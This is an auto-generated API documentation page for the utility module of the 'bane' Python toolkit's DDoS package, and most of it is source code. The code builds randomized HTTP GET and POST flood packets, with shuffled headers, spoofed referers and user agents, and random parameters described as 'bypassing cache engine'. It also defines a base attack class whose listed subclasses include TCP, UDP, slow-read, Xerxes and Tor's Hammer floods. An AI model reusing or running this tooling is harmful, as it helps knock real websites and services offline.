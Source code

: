 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.ddos.utils</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">import requests, cfscrape, socks, os, sys, urllib, socket, random, time, threading, ssl
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
# import the dependencies for each python version
if sys.version_info &lt; (3, 0):
    # Python 2.x
    import httplib
    import urllib2
    try:
        from scapy.config import conf

        conf.ipv6_enabled = False
        from scapy.all import *
    except:
        pass
else:
    # Python 3.x
    import http.client

    httplib = http.client
    import urllib.request

    urllib2 = urllib.request
    from kamene.config import conf

    conf.ipv6_enabled = False
    from kamene.all import *
from struct import *
from bane.scanners.botnet.iot import getip
from bane.common.payloads import *
from bane.utils.proxer import *

if os.path.isdir(&#34;/data/data&#34;) == True:
    adr = True  # the device is an android
if os.path.isdir(&#34;/data/data/com.termux/&#34;) == True:
    termux = True  # the application which runs the module is Termux
if (termux == False) or (adr == False):
    from bane.utils.swtch import *

def reorder_headers_randomly(s):
    b = s.split(&#34;\r\n\r\n&#34;)[1]
    a = s.split(&#34;\r\n\r\n&#34;)[0]
    m = a.split(&#34;\r\n&#34;)[0]
    c = a.split(&#34;\r\n&#34;)[1:]
    random.shuffle(c)
    return m + &#34;\r\n&#34; + &#34;\r\n&#34;.join(c) + &#34;\r\n\r\n&#34; + b


def random_param():
    a = random.randint(1, 2)
    if a == 1:
        return str(random.randint(1, 1000))
    else:
        return random.choice(lis)


def setup_http_packet(
    target,
    ty,
    paths,
    post_field_min,
    post_field_max,
    post_min,
    post_max,
    cookie,
    user_agents,
):
    pa = random.choice(paths)  # bypassing cache engine
    q = &#34;&#34;
    for i in range(random.randint(2, 5)):
        q += random_param() + random_param()
    p = &#34;&#34;
    for i in range(random.randint(2, 5)):
        p += random_param() + random_param()
    if &#34;?&#34; in pa:
        jo = &#34;&amp;&#34;
    else:
        jo = &#34;?&#34;
    pa += jo + q + &#34;=&#34; + p
    # setting random headers
    for l in range(random.randint(1, 5)):
        ed = random.choice(ec)
        oi = random.randint(1, 3)
        if oi == 2:
            gy = 0
            while gy &lt; 1:
                df = random.choice(ec)
                if df != ed:
                    gy += 1
            ed += &#34;, &#34;
            ed += df
    l = random.choice(al)
    for n in range(random.randint(0, 5)):
        l += &#34;;q={},&#34;.format(round(random.uniform(0.1, 1), 1)) + random.choice(al)
    kl = random.randint(1, 2)
    ck = &#34;&#34;
    if cookie:
        ck = &#34;Cookie: &#34; + cookie + &#34;\r\n&#34;
    if ty == 1:
        m = &#34;GET {} HTTP/1.1\r\n{}User-Agent: {}\r\nAccept: {}\r\nAccept-Language: {}\r\nAccept-Encoding: {}\r\nAccept-Charset: {}\r\nKeep-Alive: {}\r\nConnection: Keep-Alive\r\nCache-Control: {}\r\nReferer: {}\r\nHost: {}\r\n\r\n&#34;.format(
            pa,
            ck,
            random.choice(user_agents),
            random.choice(a),
            l,
            ed,
            random.choice(ac),
            random.randint(100, 1000),
            random.choice(cc),
            (
                random.choice(referers)
                + random.choice(lis)
                + str(random.randint(0, 100000000))
                + random.choice(lis)
            ),
            target,
        )
    else:
        k = &#34;&#34;
        for _ in range(random.randint(post_field_min, post_field_max)):
            k += random.choice(lis)
        j = &#34;&#34;
        for x in range(random.randint(post_min, post_max)):
            j += random.choice(lis)
        par = k + &#34;=&#34; + j
        m = &#34;POST {} HTTP/1.1\r\n{}User-Agent: {}\r\nAccept-language: {}\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nContent-Length: {}\r\nContent-Type: application/x-www-form-urlencoded\r\nReferer: {}\r\nHost: {}\r\n\r\n{}&#34;.format(
            pa,
            ck,
            random.choice(user_agents),
            l,
            random.randint(300, 1000),
            len(par),
            (
                random.choice(referers)
                + random.choice(lis)
                + str(random.randint(0, 100000000))
                + random.choice(lis)
            ),
            target,
            par,
        )
    return reorder_headers_randomly(m)


def get_public_dns(timeout=15):
    try:
        return (
            requests.get(
                &#34;https://public-dns.info/nameservers.txt&#34;, timeout=timeout
            ).text
        ).split(&#34;\n&#34;)
    except:
        return []


class DDoS_Class:

    def done(self):
        if &#34;stop&#34; in dir(self):
            return False
        return True

    def reset(self):
        l = []
        for x in self.__dict__:
            self.__dict__[x] = None
            l.append(x)
        for x in l:
            delattr(self, x)

    def kill(self):
        self.stop = True
        a = self.__dict__[&#34;counter&#34;]
        self.reset()  # this will kill any running threads instantly by setting all the attacking information to &#34;None&#34; and cause error which is handled with the &#34;try...except...&#34; around the main while loop
        return a</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-functions">Functions</h2>
<dl>
<dt id="bane.ddos.utils.get_public_dns"><code class="name flex">
<span>def <span class="ident">get_public_dns</span></span>(<span>timeout=15)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def get_public_dns(timeout=15):
    try:
        return (
            requests.get(
                &#34;https://public-dns.info/nameservers.txt&#34;, timeout=timeout
            ).text
        ).split(&#34;\n&#34;)
    except:
        return []</code></pre>
</details>
</dd>
<dt id="bane.ddos.utils.random_param"><code class="name flex">
<span>def <span class="ident">random_param</span></span>(<span>)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def random_param():
    a = random.randint(1, 2)
    if a == 1:
        return str(random.randint(1, 1000))
    else:
        return random.choice(lis)</code></pre>
</details>
</dd>
<dt id="bane.ddos.utils.reorder_headers_randomly"><code class="name flex">
<span>def <span class="ident">reorder_headers_randomly</span></span>(<span>s)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def reorder_headers_randomly(s):
    b = s.split(&#34;\r\n\r\n&#34;)[1]
    a = s.split(&#34;\r\n\r\n&#34;)[0]
    m = a.split(&#34;\r\n&#34;)[0]
    c = a.split(&#34;\r\n&#34;)[1:]
    random.shuffle(c)
    return m + &#34;\r\n&#34; + &#34;\r\n&#34;.join(c) + &#34;\r\n\r\n&#34; + b</code></pre>
</details>
</dd>
<dt id="bane.ddos.utils.setup_http_packet"><code class="name flex">
<span>def <span class="ident">setup_http_packet</span></span>(<span>target, ty, paths, post_field_min, post_field_max, post_min, post_max, cookie, user_agents)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def setup_http_packet(
    target,
    ty,
    paths,
    post_field_min,
    post_field_max,
    post_min,
    post_max,
    cookie,
    user_agents,
):
    pa = random.choice(paths)  # bypassing cache engine
    q = &#34;&#34;
    for i in range(random.randint(2, 5)):
        q += random_param() + random_param()
    p = &#34;&#34;
    for i in range(random.randint(2, 5)):
        p += random_param() + random_param()
    if &#34;?&#34; in pa:
        jo = &#34;&amp;&#34;
    else:
        jo = &#34;?&#34;
    pa += jo + q + &#34;=&#34; + p
    # setting random headers
    for l in range(random.randint(1, 5)):
        ed = random.choice(ec)
        oi = random.randint(1, 3)
        if oi == 2:
            gy = 0
            while gy &lt; 1:
                df = random.choice(ec)
                if df != ed:
                    gy += 1
            ed += &#34;, &#34;
            ed += df
    l = random.choice(al)
    for n in range(random.randint(0, 5)):
        l += &#34;;q={},&#34;.format(round(random.uniform(0.1, 1), 1)) + random.choice(al)
    kl = random.randint(1, 2)
    ck = &#34;&#34;
    if cookie:
        ck = &#34;Cookie: &#34; + cookie + &#34;\r\n&#34;
    if ty == 1:
        m = &#34;GET {} HTTP/1.1\r\n{}User-Agent: {}\r\nAccept: {}\r\nAccept-Language: {}\r\nAccept-Encoding: {}\r\nAccept-Charset: {}\r\nKeep-Alive: {}\r\nConnection: Keep-Alive\r\nCache-Control: {}\r\nReferer: {}\r\nHost: {}\r\n\r\n&#34;.format(
            pa,
            ck,
            random.choice(user_agents),
            random.choice(a),
            l,
            ed,
            random.choice(ac),
            random.randint(100, 1000),
            random.choice(cc),
            (
                random.choice(referers)
                + random.choice(lis)
                + str(random.randint(0, 100000000))
                + random.choice(lis)
            ),
            target,
        )
    else:
        k = &#34;&#34;
        for _ in range(random.randint(post_field_min, post_field_max)):
            k += random.choice(lis)
        j = &#34;&#34;
        for x in range(random.randint(post_min, post_max)):
            j += random.choice(lis)
        par = k + &#34;=&#34; + j
        m = &#34;POST {} HTTP/1.1\r\n{}User-Agent: {}\r\nAccept-language: {}\r\nConnection: keep-alive\r\nKeep-Alive: {}\r\nContent-Length: {}\r\nContent-Type: application/x-www-form-urlencoded\r\nReferer: {}\r\nHost: {}\r\n\r\n{}&#34;.format(
            pa,
            ck,
            random.choice(user_agents),
            l,
            random.randint(300, 1000),
            len(par),
            (
                random.choice(referers)
                + random.choice(lis)
                + str(random.randint(0, 100000000))
                + random.choice(lis)
            ),
            target,
            par,
        )
    return reorder_headers_randomly(m)</code></pre>
</details>
</dd>
</dl>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.ddos.utils.DDoS_Class"><code class="flex name class">
<span>class <span class="ident">DDoS_Class</span></span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class DDoS_Class:

    def done(self):
        if &#34;stop&#34; in dir(self):
            return False
        return True

    def reset(self):
        l = []
        for x in self.__dict__:
            self.__dict__[x] = None
            l.append(x)
        for x in l:
            delattr(self, x)

    def kill(self):
        self.stop = True
        a = self.__dict__[&#34;counter&#34;]
        self.reset()  # this will kill any running threads instantly by setting all the attacking information to &#34;None&#34; and cause error which is handled with the &#34;try...except...&#34; around the main while loop
        return a</code></pre>
</details>
<h3>Subclasses</h3>
<ul class="hlist">
<li><a title="bane.ddos.http_spam.http_spam" href="http_spam.html#bane.ddos.http_spam.http_spam">http_spam</a></li>
<li><a title="bane.ddos.proxies_hammer.prox_hammer" href="proxies_hammer.html#bane.ddos.proxies_hammer.prox_hammer">prox_hammer</a></li>
<li><a title="bane.ddos.proxies_http_spam.prox_http_spam" href="proxies_http_spam.html#bane.ddos.proxies_http_spam.prox_http_spam">prox_http_spam</a></li>
<li><a title="bane.ddos.proxies_xerxes.prox_xerxes" href="proxies_xerxes.html#bane.ddos.proxies_xerxes.prox_xerxes">prox_xerxes</a></li>
<li><a title="bane.ddos.slow_read.slow_read" href="slow_read.html#bane.ddos.slow_read.slow_read">slow_read</a></li>
<li><a title="bane.ddos.tcp.tcp_flood" href="tcp.html#bane.ddos.tcp.tcp_flood">tcp_flood</a></li>
<li><a title="bane.ddos.torshammer.torshammer" href="torshammer.html#bane.ddos.torshammer.torshammer">torshammer</a></li>
<li><a title="bane.ddos.udp.udp_flood" href="udp.html#bane.ddos.udp.udp_flood">udp_flood</a></li>
<li><a title="bane.ddos.vse.vse_flood" href="vse.html#bane.ddos.vse.vse_flood">vse_flood</a></li>
<li><a title="bane.ddos.xerxes.xerxes" href="xerxes.html#bane.ddos.xerxes.xerxes">xerxes</a></li>
</ul>
<h3>Methods</h3>
<dl>
<dt id="bane.ddos.utils.DDoS_Class.done"><code class="name flex">
<span>def <span class="ident">done</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def done(self):
    if &#34;stop&#34; in dir(self):
        return False
    return True</code></pre>
</details>
</dd>
<dt id="bane.ddos.utils.DDoS_Class.kill"><code class="name flex">
<span>def <span class="ident">kill</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def kill(self):
    self.stop = True
    a = self.__dict__[&#34;counter&#34;]
    self.reset()  # this will kill any running threads instantly by setting all the attacking information to &#34;None&#34; and cause error which is handled with the &#34;try...except...&#34; around the main while loop
    return a</code></pre>
</details>
</dd>
<dt id="bane.ddos.utils.DDoS_Class.reset"><code class="name flex">
<span>def <span class="ident">reset</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def reset(self):
    l = []
    for x in self.__dict__:
        self.__dict__[x] = None
        l.append(x)
    for x in l:
        delattr(self, x)</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.ddos" href="index.md">bane.ddos</a></code></li>
</ul>
</li>
<li><h3><a href="#header-functions">Functions</a></h3>
<ul class="">
<li><code><a title="bane.ddos.utils.get_public_dns" href="#bane.ddos.utils.get_public_dns">get_public_dns</a></code></li>
<li><code><a title="bane.ddos.utils.random_param" href="#bane.ddos.utils.random_param">random_param</a></code></li>
<li><code><a title="bane.ddos.utils.reorder_headers_randomly" href="#bane.ddos.utils.reorder_headers_randomly">reorder_headers_randomly</a></code></li>
<li><code><a title="bane.ddos.utils.setup_http_packet" href="#bane.ddos.utils.setup_http_packet">setup_http_packet</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.ddos.utils.DDoS_Class" href="#bane.ddos.utils.DDoS_Class">DDoS_Class</a></code></h4>
<ul class="">
<li><code><a title="bane.ddos.utils.DDoS_Class.done" href="#bane.ddos.utils.DDoS_Class.done">done</a></code></li>
<li><code><a title="bane.ddos.utils.DDoS_Class.kill" href="#bane.ddos.utils.DDoS_Class.kill">kill</a></code></li>
<li><code><a title="bane.ddos.utils.DDoS_Class.reset" href="#bane.ddos.utils.DDoS_Class.reset">reset</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>